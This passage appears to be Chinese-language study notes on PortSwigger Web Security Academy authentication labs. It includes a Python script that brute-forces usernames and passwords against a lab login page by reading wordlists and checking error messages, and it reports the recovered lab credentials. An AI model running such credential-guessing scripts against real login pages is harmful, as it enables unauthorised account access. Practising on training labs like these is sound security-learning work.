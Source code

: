                     response = requests.post(
                        'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net/login',
                        cookies=cookies,
                        headers=headers,
                        data=data,
                    )
                    
                    print(f'\rTrying username: {i.strip()}        ', end='')

                    if 'Invalid username' not in response.text:
                        print(f'\nFound username: {i.strip()}')
                        break

        def enum_password():
            with open('password.txt', 'r') as f:
                passwords = f.readlines()
                for i in passwords:
                    data = {
                        'username': 'ansible',
                        'password': i.strip(),
                    }

                    response = requests.post(
                        'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net/login',
                        cookies=cookies,
                        headers=headers,
                        data=data,
                    )
                    
                    print(f'\rTrying password: {i.strip()}              ', end='')

                    if 'Incorrect password' not in response.text:
                        print(f'\nFound password: {i.strip()}')
                        break

        if __name__ == '__main__':
            init()
            enum_password()
        ```
    2. 取得正確帳號為 `ansible`，密碼為 `michelle`，登入後即完成 Lab。

* **Lab: [Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)**
    1. 嘗試任意登入，發現回應 `Invalid username or password.`
    2. 使用 Burp 的 Intruder 枚舉使用者名稱，然而



## 第三方身分驗證機制的漏洞

如果你很喜歡破解身分驗證機制並且已經完成所有身分驗證的題目，你可能會像嘗試 OAuth 身分驗證的 Labs。

> [!note]
>
> [OAuth authentication](https://portswigger.net/web-security/oauth)

## 防止對你自己的身分驗證機制的攻擊

我們已經展示了網站因實施身份驗證的方式而可能存在漏洞的幾種方式。為了降低你自己的網站遭受此類攻擊的風險，應該嘗試遵守幾項原則。

> [!note]
>
> [如何使身分驗證機制安全](https://portswigger.net/web-security/authentication/securing)